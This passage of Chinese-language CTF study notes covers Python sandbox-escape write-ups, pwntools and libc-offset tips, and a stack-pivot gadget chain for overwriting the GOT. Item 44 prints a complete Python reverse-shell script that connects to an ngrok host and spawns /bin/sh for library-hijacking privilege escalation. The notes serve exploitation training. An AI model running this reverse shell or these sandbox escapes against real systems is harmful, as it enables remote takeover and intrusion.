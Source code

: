 - [JailBreak Revenge](https://ctf.krauq.com/bcactf-2024)
  - 可使用`locals()["param"]`获取文件里名为param的参数的值
  - 禁数字的情况下不使用等于号获取数字：`[]<[()]`
  - 其他wp： https://github.com/D13David/ctf-writeups/tree/main/bcactf5/misc/jailbreak
    - 如何查看jail环境下可用的builtin函数
- [Astea](https://octo-kumo.me/c/ctf/2024-uiuctf/misc/astea)
  - 禁止使用以下操作：assign, call, import, import from, binary operation (`+-/`等)，尝试获取RCE。可以用函数装饰器（function decorators），但是这样出来的payload不是一行。一行的做法可以用AnnAssign（之前真没见过这种语法）。属于abstract syntax tree（ast）sandbox题
  - 其他做法: https://gist.github.com/C0nstellati0n/c5657f0c8e6d2ef75c342369ee27a6b5#astea 。用海象运算符（walrus operator）+list comprehension，以及其他很好的wp
- [Calc](https://crocus-script-051.notion.site/Calc-dbdf7f34430d403d9a1550f88b2a4316)
	- 和audit hook有关的题。要求在不触发任何audit event的情况下获得shell且payload有长度限制。不确定在不触发任何audit event的情况下能不能getshell，但看这道题可以做到获取套娃函数里的参数并覆盖
- [crator](https://outgoing-shoe-387.notion.site/Idek-CTF-2024-web-crator-WriteUp-43b1e90d7b7d40b3ad8b338fa9c08bc5)
	- 如何更换函数的内部代码从而绕过沙盒。另外这篇wp里记录了很多不错的python沙盒逃逸学习链接
40. pwntools可以连接启用ssl/tls的远程服务器，只需给remote添加一个参数`ssl=True`。如：
```python
p=remote("",443,ssl=True)
```
41. 算libc的偏移不一定要用有libc.sym能查到的符号偏移。可以开启gdb，随便选一个libc中的地址，然后查看libc基址。地址-基址就是固定偏移，就算泄露出来的地址不是libc中的一个符号，再次启动获取地址并减去之前算好的偏移仍然可以算出基址。
42. 栈地址（64位）一般以0x7fff开头；libc地址一般以0x7f开头。
43. [stuff](../../CTF/LA%20CTF/Pwn/stuff.md).
- double read(利用fread，gets等函数+leave;ret gadget的多次栈迁移)，在无可控制参数寄存器(pop rdi)的情况使用。主要利用了fread末尾的gadget：

```
   0x00007ffff7a9aa9d <+205>:  add    rsp,0x8
   0x00007ffff7a9aaa1 <+209>:  mov    rax,rbx
   0x00007ffff7a9aaa4 <+212>:  pop    rbx
   0x00007ffff7a9aaa5 <+213>:  pop    rbp
   0x00007ffff7a9aaa6 <+214>:  pop    r12
   0x00007ffff7a9aaa8 <+216>:  pop    r13
   0x00007ffff7a9aaaa <+218>:  ret 
```

可控制rbx和rbp。配合`add dword ptr [rbp - 0x3d], ebx`这个gadget实现更改got表。关键在于第二次fread的buf指针指向上一次fread迁移的栈的上方，即可任意控制栈顶。

44. 利用python库进行提权（[Privilege Escalation: Hijacking Python Library](https://medium.com/@klockw3rk/privilege-escalation-hijacking-python-library-2a0e92a45ca7)）。脚本：

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("6.tcp.ngrok.io",11144))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

变种方法：[Python Library Hijacking on Linux](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8)
